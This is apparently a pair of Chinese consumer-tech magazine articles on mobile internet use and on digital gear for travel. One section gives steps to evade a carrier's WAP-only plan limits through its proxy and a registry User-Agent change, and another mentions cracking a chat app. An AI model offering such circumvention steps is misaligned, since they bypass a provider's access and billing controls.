很多手机系统自身都带有邮件收发工具。一般而言，我们只要按说明书作一些简单设置就可以收发邮件了。这里特别提醒大家注意两点，一是通过手机自身软件收发邮件只能采用CMNET接入方式，大家要考虑好费用问题，二是邮件接收和发送服务器都要使用IP地址，而不能用域名，可以通过在Windows下运行“PING 域名”得到具体的IP地址。

这里特别推荐大家用UCMAIL或UCWEB收发邮件。UCMAIL：是基于Java的移动邮件客户端，UCMAIL支持常用邮箱（包括Hot Mail和Yahoo Mail）的帐户智能配置。针对不同手机的差异，用户还可以进行邮件收发，存储，浏览，联网等设置。用户也可以随时将信件通过彩信形式转发，发送到指定的手机中。总之这是一款很不错的手机收发邮件的程序，强烈建议CMWAP用户安装试用。而新版的UCWEB也具备较强的邮件收发功能，在UCWEB主页登录后，打开主页上的“邮件”链接。在这里，可以方便的使用UCWEB的邮件客户端功能。如果是第一次使用UCWEB的邮件客户端功能，需要新建一个邮件账号。然后就可以方便的在手机上查看和管理互联网邮件账户了。另外大家还可以通过上面提到的网页浏览器，直接登录邮件管理页面，进行邮件收发。

现在PUSHMAIL是互联网上一个比较热门的概念。不过支持PUSHMAIL的手机价格似乎都比较高。没关系，如果你使用智能手机，安装合适的软件同样也能实现PUSHMAIL功能。比如MIMO用这款软件，在其“Push超级邮”功能中，我们只需进行简单的设置，就能对绑定的邮箱实现PUSHMAIL功能。只要MIMO在运行中，你就能即时得到新邮件的提示信息，并能进行包括附件在内的邮件收发。

#### 3.即时交流

QQ无疑是目前国内最为流行的即时交流软件，现在不少手机都内置了移动QQ功能，不过每月需要付出一定的使用费用。其实在一般手机上也可以安装JAVA版本的QQ，即可通过CMWAP节点聊天。JAVA QQ的功能并不弱，可以全屏显示，记录聊天记录。更为难得的是，JAVAQQ支持通过CMWAP联网聊天（见图9）。如果你使用智能手机，那么进行即时交流就更加方便了。



智能手机就内置了功能强大的MSN（可惜不支持通过CMWAP聊天），你可以安装其他软件实现交流。比如要通过CMWAP进行聊天，建议大家使用由免费WAP门户邦邦网开发，可同时绑定QQ和MSN，实现手机与手机，手机与电脑互通的即时聊天软件邦邦通。其最大优点是操作方便，无论是多窗口用户分组、数字快捷键设置，还是MIDI提示音、自动回复功能等，都相当实用和方便。如果不想安装JAVA模拟器，还可以使用邦邦通的WAP版。实现WAP页面与JAVA客户端的互通。无论从功能还是界面操作上看，邦邦通都算得上是相当优秀的CMWAP聊天软件。强烈建议喜欢聊天的CMWAP包月用户安装使用。注意在使用前需要到邦邦网上申请一个邦邦号。除了邦邦通，还有MIMO等其他软件也具备类似功能。如果你使用塞班智能手机，也可以安装SIS_QQ，不过需要进行破解。还可以使用ICQ、MSN、YAHOO的AgileMessenger、Implus聊天工具等，让你的手机变成“聊天中心”（见图10）。



#### 4.在线娱乐

利用GPRS无线网络，我们能实现手机网游等在线娱乐。现在手机网游开始逐步热火朝天了，从最初“摩邦”到现在三界、战国、无限乾坤、大话三国3、神役、封魔幻想等网络RPG百花齐放，还有TeveQ、移动玩家等类似联众的联网棋牌游戏，这里就不一一列举了。这些游戏大多通过简单设置，就支持通过CMWAP节点连接，感兴趣的朋友不妨去相关游戏网站看看。在手机上玩游戏，我们应充分发挥手机的通讯优势，玩一些可联网的游戏。比如10games的斗地主、双扣等游戏，支持通过Cmwap节点连接，可以象在电脑上玩联网游戏一般，与他人进行联机对战，比单机游戏的可玩性就高了很多。

除了联网游戏，通过移动网络收看电视或广播也是很有意义的娱乐。如果你的手机通过CMNET上网，那么可以打开系统自带的WMplayer播放器选“菜单”，“打开URL”，选“mms://”填写成“mms://winmedia.cctv.com.cn/live1”按“播放”，稍等……开始拨号_连接_缓冲_播放。CCTV有几个频道（比如CCTV国际频道mms://winmedia.cctv.com.cn/live）为手机网络专门优化过，在手机上看稳定在34kbps，不需要缓冲，声音比较流畅和普通电视差不多（见图11）。如果你的手机使用CMWAP节点上网，那么需要用到GGTV这个在线流媒体播放器。大家可以通过PPC手机直接连上：wap.3g.net.cn下载。安装好后，就可以收看包括凤凰卫视在内的多个电视频道了，不过延时非常严重。另外用类似的方法我们也可用通过网络收听广播节目，让自己的智能手机也加上流行的收音机功能。当然要收看网络电视带宽是关键，用GPRS还无法获得较好收看效果，如果你的智能手机支持2.75G的CDMA 1X或EDGE网络，或者能通过WIFI接入宽带网，那么效果会好不少。



#### 5.手机理财

如果要问你今年中国最火的市场是什么？毫无疑问是股票市场。先进的炒股理念是科技与技术的完美结合，当你出差在外或者不在电脑旁边时候，你是否想到了您的手机也能炒股？手机炒股是更安全方便和快捷炒股方式！因此这里再为大家介绍一下如何通过手机进行理财及炒股。

目前手机上的股票资讯类软件有很多：如移动证券、四方股通、风帆理财、天网股票等。这些软件功能都大同小异，包括实时行情，在线交易等。要提醒大家注意的是，使用这些软件时小心落入“包月收费”的陷阱（见图12）。

“同花顺”手机炒股软件是目前国内手机用户使用率最高的实时证券行情分析软件，号称随身炒股专家。满足随时随地的查阅沪深两地指数、个股分时、K线走势、技术分析、个股基本面资料、丰富热点资讯、绝密内参等服务。同时支持超过80家券商，1000多家营业部在线交易的专业手机炒股服务提供商，委托完全避免了电话委托不可见、速度慢、不易于操作的缺陷，使你能完全把握整个在线交易的过程，做到快捷安全。另外还有一款功能类似的“投资通”炒股软件也值得推荐，这款软件最大的优势在于是免费的，而且还具备“模拟炒股”功能，其他还有第一财经手机炒股系统功能也很强大。


除了炒股，在部分智能手机上我们还可以安装随身银行进行理财。比如招商银行的网上银行软件功能就很丰富。要正常使用关键是要进行证书申请或证书恢复。如果已经拥有PC机上的网上个人银行专业版一卡通证书，把PC上的网上个人银行专业版的一卡通证书备份出来。复制到掌上电脑上的某个文件夹中。然后将掌上电脑连接上INTERNET，进入掌上银行。在登录界面上选择证书管理（或在系统启动的向导中选择证书恢复）。选择证书恢复，找到证书文件，证书恢复成功，就可以使用掌上银行了。你也可以直接在掌上电脑上申请个人数字证书，申请流程与PC机的网上个人银行专业版完全一致：先到银行柜台申请数字证书，得到一个银行打印的密码信封，内有授权码。将掌上电脑连接INTERNET，进入掌上银行。在登录界面上选择证书管理（或在系统启动的向导中选择证书启用）。选择证书启用，根据要求录入资料，并输入密码信封中的授权码，提交成功后等待一个小时后登录即可。

### 四、电脑连接手机上网

电脑上网的方式有很多，可以使用普通的电话拨号或普通网卡连接局域网上网，也可以使用ADSL、ISDN等其他有线连接的方式。对于笔记本电脑而言，现在更受人关注的是无线上网，除了应用尚不太广泛的WIFI外，目前使用更多的是基于手机网络的广域无线上网。从理论上说只要有手机信号的地方就可以实现上网的愿望，非常方便。

#### 1.连接方法

电脑配合GPRS手机上网可以使用数据线、红外线、蓝牙等连接途径与电脑相连，这里分别加以介绍。

数据线：驱动安装的过程一般是，先用数据线连接电脑与笔记本电脑，笔记本电脑会检测到新的USB设备，只要根据系统提示一步步安装就可以了，记住驱动程序通常在随数据线附送的光盘当中。安装完成后，系统会自动生成一个USB MODEM。接下来我们使用这个USB MODEM建立一个拨号连接，在“控制面板”—“网络连接”下选择“新建连接向导”，然后依照系统提示依次执行就可以了，电话号码填*99#，其他用户名密码之类的都不要填，过程很简单。注意在额外的初始化命令中填入at+cgdcont=1、"ip"、"cmwap"（或"cmnet"）。

红外线：首先打开笔记本电脑和手机的红外线接口，将两个接口相对，这时笔记本电脑会自动识别出有一个红外线设备连接到笔记本电脑。然后进入控制面板的“调制解调器”中，添加一个“标准33.6k Modem”，注意选择红外端口。再新建一个拨号连接，选择刚才添加的MODEM拨号，点击下一步，在电话号码的框内输入*99#。用户名、密码留空就可以了（见图13），另外还要注意将手机上GPRS选项中的APN（即“接入点名称”）设置为CMNET（CMWAP可以通过代理上网，后面会详谈）。



蓝牙：笔记本电脑与手机之间通过蓝牙相连后进行上网操作则更加方便，既不需要一根数据线将手机“拴”在笔记本电脑上，也不需要将二者的红外窗口严格对准，可以将手机随意挂在腰间或放在包中。我们首先开启手机蓝牙功能，并设置为可接收状态；然后在手机端搜索新的蓝牙设备，发现电脑上的蓝牙接口后相互进行配对，成功后二者就进行了绑定。PC上的蓝牙设备安装好驱动程序后，会自动在拨号网络建立三个拨号连接，其中一个是Bluetooth Dial-up Connection，双击该图标，在弹出的窗口中“用户名”和“密码”留空，“拨号”输入“*99*1#”（具体号码可咨询当地移动运营商），便完成了无线拨号设置，点击“拨号”按钮，几秒内即可接入GPRS网（见图14）。


#### 2.突破 CMWAP 限制

在某些地区，有些卡可以开通一种 “WAP 套餐”，在这个特殊的 GPRS 包月套餐中，CMWAP 节点产生的 GPRS 流量包月，通常使用 CMWAP 节点（CMWAP 和 CMNET 的区别请参见前文），只能直接在手机上浏览 WAP 网站。不过我们可以使用一些特殊的手段，让使用这种卡的用户，也能在电脑上浏览网页。具体方法十分简单，只需在 IE 的连接设置中，针对 GPRS 拨号连接，设置代理IP为 10.0.0.172:80 即可（见图15）。

而且对于 QQ 会员或者使用较新版的 QQ，我们也可以通过该HTTP代理上QQ。另外MSN和雅虎通，也可以通过设置代理勉强使用（见图16）。

但使用这种上网卡，我们无法用FoxMail等软件直接收发邮件，这是因为FoxMail不支持HTTP方式的代理，可以利用CCPROXY的二级代理功能，即将本机作为一个代理服务器，增加SOCKS 4和SOCKS 5等端口的支持，而CCPROXY又通过HTTP 10.0.0.172:80作为服务器连接到INTERNET，这就实现了POP3邮件的收发（见图17）。

现在使用移动 CMWAP 网关可能无法使用IE浏览器浏览网页，这是因为移动在CMWAP网关中增加了对浏览器类型的判断，一发现是桌面电脑的IE就加以封锁。当然你可以用Opera、Firefox等第三方浏览器来突破封锁，但更好的方法是直接修改IE浏览器的USER AGENT，从而突破封锁。具体方法如下：

运行REGEDIT，打开注册表，定位到HKEY_LOCAL_MACHINE--SOFTWARE--MICROSOFT--WINDOWS--CURRENTVERSION--INTERNET SETTINGS--5.0--然后在5.0里面建立一个新项，命名为User Agent。然后在User Agent里再建立一个新项，命名为Post Platform。随后再Post Platform里面建立一个新项OpenWare。建立好后，点一下User Agent，选择右边的默认注册表并双击。在数值数据中输入OpenWare。退出注册表，这样就好了。

总体来说这种CMWAP加代理上网的方式还算是不错的，不过有几点不足：一是有些网页无法打开，尤其是国外网站，二是对COOKIE支持不太好，有时无法登陆新浪通行证等，三是通过该代理上QQ，经常断线，或无法发送信息，基本上没有实用价值。

### 五、移动传真解决方案

尽管现在网络发达，EMAIL满天飞，但传统的传真收发，由于具备“白纸黑字”的可靠性，仍是正规办公不可缺少的信息传递手段。要提醒大家注意，要通过手机发送传真，你用的手机SIM卡必须事先开通传真服务，具体可咨询10086。

#### 1.使用手机终端进行传真收发

目前市场上有部分手机直接支持传真收发。主要有诺基亚的9110、9210、9300、9500等几款。使用这类手机进行传真收发，只需按说明书做好相应设置即可。

对于PocketPC智能手机，请安装KSE TrueFax软件，可以把PocketPC变成一部传真机，只要有电话，就可以随时随地发放和接收传真。支持用CF Modem卡和红外线手机来收发传真。它的使用和设置也非常的简单。安装完成后，重启，再运行KSE TrueFax，点击左下角的“New”，建立新传真，在出现的页面中：写入对方接收传真人的姓名，点击右侧的目录图标可以从联系人中添加对方的传真号码即可。不过要注意，如果要使用手机收发传真，你的手机号必须开通传真功能。除了KSE TrueFax，PPC上还有bFAX等其他传真软件，使用方法也是类似的。另外在塞班手机上安装适当软件（如Mobilefax）后，也可以直接进行传真收发（见图18）。

#### 2.电脑连接手机收发传真

PC机也可通过某些手机发送传真。电脑上需配置蓝牙适配器，且操作系统最好为Windows 2000或Windows XP。

首先安装好蓝牙适配器，安装蓝牙通信管理软件时，它会自动添加很多虚拟通信端口COMX，还有虚拟网卡、蓝牙Modem等，这些可以在电脑的“设备管理器”中看到。最重要的是它为我们添加了一台传真打印机，在“开始→设置→打印机→传真”可找到。

Windows 2000/Windows XP操作系统一定要安装传真服务（Fax Service），一般都默认安装了，所以不必费心。将蓝牙适配器“插入”电脑USB接口，开启手机的蓝牙功能，启动电脑上的蓝牙通信管理软件，搜索蓝牙设备。然后进行配对和授权等操作。再刷新服务，我们能看到“蓝牙传真服务”。好，准备工作你已经完成。

发送传真的过程就是将你需要发送的文档“打印”到这台传真打印机，你可以从任何具有“打印”功能的软件中发送传真。在选择打印机的时候一定要选“传真”，输入正确的传真号码确定之后，系统就开始为你发送传真了。

#### 3.使用小灵通无线收发传真

传真机作为一部调制解调器，可把数字化的图像信号调制为音频，并通过市话通信网络进行传输。我们可以用小灵通网络作为无线传真的载体，收发无线传真。就像使用普通传真机那样简单。PAS数据线+小灵通(特定型号)+普通传真机=移动无线传真。几乎所有带有耳麦插口的小灵通配上小灵通传真线后，都可以实现无线传真功能。

小灵通上网线一头接小灵通另一头接传真机的电话线插孔。按小灵通提机键，再按传真机免提可听到拨号音。当传真来时小灵通接起，传真机使用免提可听见对方说话，给予对方传真信号即可。如发传真，将资料放入传真机，用小灵通拨打对方号码，打通后叫对方给予传真信号，传真机使用免提可听见信号音，按传真开始。

#### 4.使用卫星电话发送传真

现在有些卫星电话支持数据及传真功能，这样在手机信号无法覆盖的野外我们也能发送传真了。发传真接收方传真机必须设为自动接收状态，卫星电话应初始化完成处于待机状态。将传真机电话线接入卫星电话的FAX MODEM接口上，将要发送文件放在传真机上。在传真机上按键，00国家代码地区号码传真号码#，注意一定要在传真机上按键拨号，同时别忘了按#号。接通后即可发送传真。

# 巧买善用数码设备 营造完美“数字化”旅行

文 / 龚胜

现在喜欢外出旅行的朋友越来越多了，邀游于青山秀水之间，是“驴游”们十分惬意的生活方式。以数码相机、智能手机、笔记本电脑为代表的各种便携数码设备，为旅行打上了“数字化”的烙印，而宽带互联网的普及更是为旅游增添了无穷乐趣。本文将为爱好旅游的朋友谈谈与旅行相关的数码设备选购应用及网络在旅游中的应用情况。让我们的快乐旅行在数码设备和网络帮助下更加完美。

## 数码相机 / 摄像机篇

毫无疑问，数码相机是外出旅行时必带的最重要数码设备。有些朋友常在外出时是携带 DV 还是 DC 间犹豫，从我的观点看，建议大家以携带 DC 为首选。用数码相机记录旅途更加方便和清晰，旅途中使用 DC 的频率比使用 DV 要高很多。而且现在有不少数码相机的摄像功能不比 DV 差 (但几乎所有 DV 的静像拍摄功能都很弱)，携带 DC 更能做到一物多用。因此下面先重点谈谈数码相机的相关情况。

但是由于普通数码相机存在感光器件较小的特殊性，要做到较大的广角，镜头的物理焦距就需要很短，导致对像差校正、抗眩光镀膜等有高要求，数码相机如要做到 28mm 广角 (相当 135 相机)，镜头成本会比较高，因此过去广角镜头只能在高端数码相机上找到，但现在 2000 元左右，价廉的广角型数码相机也正日渐热门起来。而且部分产品不仅具备 28mm 的广角端，总体变焦比也很大，象松下的 TZ3 (28 - 280)，理光的 R5 (28 - 200) 等机型都是旅途 DC 很好的选择。

### 一、旅行用数码相机选购

旅途用数码相机的选购其实并没有太多特殊的地方，任何一款主流或非主流的数码相机都可以用于旅途拍摄。不过我们还是要重点关注一下镜头变焦范围、广角端焦距、电池续航能力以及防水性能等。总体而言，具有较大变焦范围和广角较广的卡片机型是最适合旅游携带的机型。另外防水机型也得到部分朋友的关注。

部分数码相机还可以通过加装附加镜头来扩展镜头广角端。比如可以使用 0.6X-0.8X 广角扩展镜，将广角端扩展到 28mm 内，可以大大扩展镜头的焦距范围，适应更多的拍摄要求。由于附加镜头对数码相机成像质量存在较大影响，而且多数价格不菲，所以如果你使用广角拍摄的场合较多，最好还是买本身具有广角镜头的数码相机。

#### 1. 广角型数码摄影解决方案

摄影爱好者对“广角”这个名词都不会陌生，简单说广角是镜头焦距的概念。在传统 135 相机中我们通常将焦距短于 35 毫米的镜头称为广角镜头。广角镜头，顾名思义就是其摄影视角比较广，适用于拍摄距离近且范围大的景物，有时用来刻意夸大前景表现，强调远近感及透视。典型广角镜头视角为 72 度以上。广角镜头在特殊艺术效果的运用方面是必不可少的。特别是对于风光拍摄来说，28mm 以上广角镜头几乎是必需的。利用其视角大的特性，展现画面的震撼力。广角镜头景深大，因此在外出旅行时，拍摄“到此一游”的纪念照中应用也很广泛 (见图 1)。

在传统相机中，28 毫米以上的广角镜头是很普及的，由于制造成本的原因，数码单反所使用的感光器件多数都不是全画幅的，感光器件的实际面积都比 135 画幅小，因此存在镜头“折算系数”的问题，镜头广角端往往损失较大。数码单反要实现广角摄影，需要配备广角端在 20mm 以下的广变 (如适马 15-30mm DC、尼康 12 - 24mm、佳能 17-40L)，或者定焦广角镜头。至少也应该配备广角端在 24 毫米以下的镜头，才能勉强应付广角摄影的需求 (见图 2)。

#### 2. 数码相机防水解决方案

外出旅行时，游泳、玩水、泡温泉往往是必不可少的节目，如果旅途中你经常拍摄雨景、海景甚至打算在水下拍摄，那么就最好购买防水数码相机。防水 DC 虽然不是市场主流，但其个性化功能已经得到消费者关注，让用户享受到复杂条件下的拍摄乐趣。

数码相机是精密电子类产品，对水的惧怕程度相当高，要在有水环境中使用数码相机，必须进行专门设计。数码相机要做到防水，比传统相机更难。首先要注意，防水相机分为两大类：一是机身经过简单防水处理，可以防水溅，也就是所谓“生活防水”，这类相机不能被水冲或在水里浸泡，可以在小雨、大雾、瀑布外围等环境中正常使用。第二类是机身经过严格技术处理，可以直接在水里浸泡一定时间进行正常拍摄的“半专业防水”产品（见图3）。

目前，世界上对于消费类电子设备防水的权威标准是日本工业规格 JIS 标准，该标准将防水种类分为八个保护等级，每个级别的防水条件均不相同。简单说1到2级可抵受水滴，3到4级可抵受水花，5到6级可抵受喷水，7级可浸入浅水短时间拍摄，而最高的8级，则可长期浸入在较深的水中进行拍摄。由于不同级别的防水产品价格相差很大，所以选购时一定得根据自己的拍摄要求来进行选择。如果你不需要在水下拍摄，那么选择与普通产品价差不大的“生活防水”型产品即可，比如奥林巴斯的μ系列。如果你对防水有较高要求，而且除了防水，还要求产品能够防尘、防震，那么应该选择更高档次的半专业防水产品。而如果有深水拍摄等特殊要求，就必须选择专业的防水外罩了。

其实除了购买专门的防水相机，我们还可以选择防水外罩，实际上配置合适的防水外罩，几乎任何一款数码相机都能成为“防水相机”（见图4）。目前越来越多厂商开始提供水下拍摄套件装备，只要搭配专门针对数码相机设计的潜水盒，一般的相机都可以在水深30至40米内进行长时间拍摄。数码相机的防水罩，因针对特定机型开发，按键、镜头、液晶屏幕位置略有差距，选购要认明支持机型。我个人认为普通用户更适合选择防水外罩，因为在有水环境拍摄的时候并不会太多。专业防水相机的外观和性能未必能令我们满意，且价格较高。而防水罩一般产品价格多在数百元左右。

**小提示：**对于偶尔在小雨、海滩等有水的环境中使用数码相机的朋友，其实不必购买昂贵的专门防水产品，我们只需用保鲜胶袋将相机包好，然后在镜头处剪一个圆孔供拍摄即可（见图5）。

### 二、数码相机旅途摄影技巧

数码相机拍摄技巧有很多，也不是一朝一夕就能掌握的，这里主要为大家谈谈和旅游拍摄有关的一些话题。另外特别提醒大家，当我们拿着数码相机兴冲冲出发前，一定要注意备足好相机的“粮草”：存储卡和电池，尤其在出远门前，更要在这两方面作好充分准备。以免出现难以弥补的遗憾。

#### 1.风光摄影技巧点滴

旅途中美丽的风景无疑是最典型的拍摄题材。要拍出精美的风光照片需要有较高的摄影技巧，而且很多技巧只可意会，难以言传，是长期拍摄技能的积累。

拍摄风光照片，摄影者要具有对大自然的敏锐观察能力，有相应的艺术鉴赏力和美学基础。要拍摄到满意的风光照是要花费很多精力的，同一景物在不同时间、用不同镜头、不同相机、不同角度拍出的照片效果相差很大。摄影师要有自己的想法，很多好片子都是靠和别人不一样的感觉拍出来的。拍风光除了考虑构图、曝光等因素外，我觉得有一点很重要：就是你要把所拍的风景拍得与人们平常看到的不一样，让人感到这个平常非常熟悉的景色在你的照片里却是另一番景色。不要太在意器材等技术层面上的东西，关键还是靠摄影者的修行、经验。无限风光在险峰，去少有人去过的地方拍摄，是获得好照片的捷径（见图6）。

大海航行靠舵手，万物生长靠太阳。摄影的灵魂是光线，比如我们要善于利用侧光拍摄景物，由于光线斜照景物，景物自然会产生阴影，显现明暗的线条，使景物呈现立体的感觉。但拍摄侧光景物，要注意阴暗部分细节的保留，最好以18%的中性灰为测光基调，使景物阴暗部分的层次能够充分显示出来，从而丰富整个画面层次。侧光通常比顺光、逆光等光线都有利于表现层次和线条，是最适宜拍摄风光照片的采光。拍摄时尽量使用光圈优先模式拍摄，将光圈设定在比最大光圈小2 - 3级的档位上，同时尽可能选择低的等效感光度，最好直接固定在最小值。以尽量提高画面的质量。同时有条件的化，拍摄风光照时，最好使用三角架固定相机。

对于风光拍摄来说，28mm以上广角镜头几乎是必需的。很多风光摄影师钟爱广角镜头还因为它的透视效果有强烈的冲击力，对于大面积风光拍摄，利用其视角大的特性，可以充分展现画面的震撼力。广角镜头景深大，因此在拍摄“到此一游”的纪念照中应用也很广泛。风光摄影中偏振镜是必备的滤色镜，普通相机上常用的UV镜、天光镜、柔光镜、星光镜、偏振镜等滤镜也可用于数码相机，但大多数滤镜的效果都可以通过后期制作实现，只有偏振镜所起的作用通过数码加工很难实现，因此在数码相机上最有用的滤镜非偏振镜莫属。偏振镜在摄影中主要起到消除或减弱非金属表面的反光的作用。同时控制天空亮度，使蓝天变暗。并提高彩色影像的色彩饱和度。除了偏振镜，有条件的朋友最好再准备中灰渐变滤色镜，能够减少景色反差，增加色彩饱和度和增强亮部及暗部细节。风光照片中天空部位过于明亮时可以用滤镜中的深色部位来压暗。

##### 小技巧：如何拍好“风景+人物”的“到此一游”照

拍摄人物时一定要注意用光和构图。用光的角度不同，被摄体质感会有很大不同，正面光会降低被摄体的层次感，而侧光可以很好地表现被摄体的形状和细节。而逆光可在人物头发边际产生漂亮的轮廓光，反差大的逆光会产生剪影效果。构图时一般应把主体放在画面大约1/3处的“黄金分割点”，同时尽量避开杂乱的背景。利用斜线或曲线的背景构图会让整体画面看上去更为生动（见图7）。

#### 2.数码相机水下摄影技巧

首先在进行水下拍摄前，请先检查好相机防水密封性的可靠性，可在浅水处稍事测试。在水中，尤其是在海水中使用完防水相机或潜水盒后，一定要先用清水冲洗外壳、擦干后，再取出相机。相机只要碰过水，用毕后尽快将水渍清除干净，以延长产品寿命。
其次要注意从技术角度看，水下拍摄和陆上拍摄也存在一定的区别。例如，光线随着下潜深度的增加变得更昏暗而且更分散，在不同的水下深度进行拍摄，需要进行相应的光源辅助配合，如果使用数码相机内置闪光灯进行光源辅助，通常会出现“水下雪花”现象。为了避免这个现象，最好使用外置闪光灯，或者水下照明灯。
另外还要注意水下摄影时，镜头焦距的变化，在水中相机的焦距会变长。如果使用和陆上一样的焦距设置和拍摄距离，水下拍摄出来的物体要显得大一些，而拍摄角度就显得小一些。此外对于白平衡的控制也需要进行不同的调节，最好使用自定义白平衡进行调整。

#### 3.数码相机在旅途中的保养

在天气炎热的季节外出旅行时，千万不要让数码相机直接暴露在高温下、一定要避免阳光的直接照射。更不可将数码相机长时间放在艳阳下暴晒的汽车中。而天气特别冷的时候，你应当将相机放在大衣里来保持它的温度。把相机从冷的地方带到温暖的地方时，为防止冷凝液在机体里产生，应把相机放在塑料包或用报纸裹住，直到相机的温度回升。因此在不同温度下合理使用相机我们是应注意的。除了环境温度，还应注意防水、防尘，如果你去海滩或瀑布区拍照，那防水机壳也许是必备的，只要将数码相机安放于防水机壳中，把机壳好好合上，锁好，便可一心一意在水中或沙上放心拍摄了！如果去沙漠等地，防尘也不可掉以轻心，一粒沙子，甚至就可能导致整台相机失灵。
为了保持相机良好的工作状态，延长使用寿命，必须精心地加以维护。保养好CCD、取景装置、LCD、镜头等关键部件，注意电源的使用，做到:防震、防冻、防热、防潮、防尘等。总之数码相机应尽量在清洁的环境中使用和保存，这样可以减少因外界的灰尘、污物和油烟等污染可导致相机产生故障。数码单反相机在使用中尤其要注意CCD/CMOS污染的问题，在室外更换镜头时，会有大批灰尘不请自来，经常应该用吸尘器彻底把芯片仓内的灰尘吸走，再小心将感光芯片擦干净。

### 三、数码摄像机选购与使用简谈

#### 1.小型数码摄像机选购要点

随着数码技术飞速发展，数码摄像机功能品质日益提升，而重量体积逐渐轻巧。外观时尚、方便携带的精巧型DV越来越受到广大家庭用户欢迎。同时小巧型数码摄像机也能方便我们长途旅行时携带。目前市场上数字摄像机品牌和型号繁多，精巧型DV由于体积的限制，在功能上未免受到一些限制，大多采用了小尺寸单CCD、10倍光学变焦镜头、2.5英寸液晶屏的配置，从外观看，精巧型DV都采用了时尚且有利于缩小体积的立式机身造型。当然由于产品档次和生产厂家的不同，不同产品也还存在不少区别，选购时我们应注意以下几方面：一是应关注CCD尺寸及像素，这两个指标越高当然越好，但机器价格也会随之高涨。二是注意镜头的品牌、光学变焦范围和最大光圈。至于“数码变焦”，基本上是一种数字游戏，实用价值不大，不必过多关注。第三是产品的体积和重量。对于采用普通DV带、立式机身设计的产品，应该说在体积和重量上没有大的差异，不过具体造型和机身颜色、材质等还是各有不同，这方面应该是“萝卜白菜，各有所爱”了。其他方面我们还应注意电池容量、附件多少，是否具备16:9拍摄模式、夜拍模式等。此外目前使用非MINI DV带（比如微型硬盘及闪存）的DV产品，由于没有了DV带的限制，体积和重量大大缩小，使用也更加方便可靠，建议大家选购时优先考虑，不过目前这类产品的价格稍高。

#### 2.数码摄像机旅途技巧

出门在外DV带要准备足够，一般按外出一天准备一盘Mini DV带预算，购买时绝对不要贪图便宜而购买劣质DV带，因为劣质DV带不仅对磁头的伤害是很大的，而且## 数码大玩家

在数据存储方面也非常不稳定，毕竟难得出去玩一次，万一出现图像不清晰甚至没有图像的情况，不是叫人欲哭无泪吗？所以一定要到有信誉的商家去购买。除了DV带，其他诸如三脚架、备用电池、擦拭工具之类的装备也要准备妥当。

摄像最基本的技能就是要做到“稳”，如摄像机在拍摄时机体过度晃动，放像时画面将不稳定看起来头昏眼花，控制使用变焦也很重要，如果乱用变焦，观看时图像容易使人感觉不稳定。另外注意保持摄像机处于水平位置，照片倾斜，还可以用软件将其转回水平位置。但摄像时如有倾斜则很难处理。

如果不是迫不得已，尽量不要边走边拍，这是DV摄像时最忌讳的一种方法，因为在这种情况下是很难掌握机身平衡的，拍出的画面会晃动的很厉害，总之千万应记住，无论在什么情况下，画面稳定都是摄像的第一要素。

旅途中摄像，在“人与景”的搭配上，既要拍到景，又要摄到人，由景物的空镜头摇向人物，再由人物走入空镜头画面，由人物的欣赏视线或行走方向再摇出景物，或由全景人物推向景物，都是人、景融合的很好方法。如果你觉得自己后期工夫比较高的话，也可以单独拍摄一些纯景物（比如建筑的局部、蓝天白云等）的镜头，这样后期制作的灵活度和可选择性会更高。

最后有几点注意事项，DV带在拍完以后一定要妥善保存，尤其不能让它靠近磁场；每天拍摄前最好对机器的初始设置进行一次检查，比如不要将SP和LP设置搞错，白平衡和拍摄模式也要检查一下；出门之前还要重点检查一下背带的可靠度，避免出现不必要的损失。

### 3. DV与笔记本的配合

对于数码摄像爱好者，如果外出旅行时能配置一台带IEEE 1394接口和刻录机的本本，可让你在旅途中随时随地制作VCD/DVD，而不用携带过多的DV带造成浪费。采集录像可以使用数码摄像机自带的软件，而刻录软件上推荐大家使用由Nero公司推出的NeroVision Express，该软件支持DVD-R/RW与DVD+R/RW两种规格的刻录机，刻录出来的DVD能够完美地兼容DVD播放机。这款软件还支持“+VR”同步刻录技术，就是可以很方便而且迅速地将视频信号同步刻录到光盘，而不用经过电脑硬盘。

实际上目前数码摄像机的存储载体已经从传统的磁带，向微型硬盘、可擦写DVD光盘和SD闪存卡等介质发展，但是同样要与笔记本电脑配合才能方便的使用。比如现在有部分使用闪存卡的数码摄像机，将拍摄的录像直接保存为MPEG4格式的文件。由于闪存容量有限，这类数码摄像机更需要与笔记本电脑配合，将其所拍录像转移到笔记本电脑上也更方便，只需用信号线连接到USB接口，然后直接将文件拷贝到笔记本中即可。

## 笔记本电脑篇

有条件的话，强烈建议大家外出旅行时最好带上笔记本电脑。尤其在长途旅行中本本作用非常大，除了可为DC/DV等设备正常使用提供强大支持外，还能让我们不中断日常工作，随时随地接入互联网，与外界保持联系。总之笔记本电脑在旅途中有很多用武之地，这里就让我们来看看在旅途中笔记本电脑的选购和应用吧。

### 一、小型笔记本选购

很显然并不是所有笔记本电脑都适合于旅行携带。尤其对于非自驾车旅游的朋友，选择旅行用笔记本应将重量和体积放在首位，性能是次要的。对“背包族”而言，100克重量和一厘米长度都不可忽视。好在笔记本电脑“轻薄化”已经是一种趋势，现在重量在1.3公斤以内，显示屏大小不超过12英寸的产品比比皆是。其中部分型号甚至小巧到可以放进男士大衣口袋，这类产品就是我们外出旅行的好选择（见图8）。



对小型笔记本电脑的性能，我们不要太高的要求。从配置上看，处理器采用超低电压版的主流型号就比较理想了，硬盘和内存我们最好根据资金情况尽量一步到位，从目前情况看硬盘容量应在80GB以上，内存则应不小于1GB。接口方面，两个以上的USB 2.0接口和PC卡插槽是必需的，其他诸如IEEE1394、VGA、RJ45、RJ11等接口，当然也是越齐全越好。无线接入能力上，能同时内置WIFI、蓝牙和红外是最理想的，至少也应配置WIFI和红外。至于是否内置光驱，大家可根据需要进行选择。此外要特别注意电池性能，从实用角度考虑，旅行中携带的笔记本电脑电池续航能力在三小时以上是起码要求，能达到五小时以上则比较理想。具体而言，像Sony TX1、富士通P1150、松下CF-R5、华硕S300N等产品都是外出旅行时不错的选择。

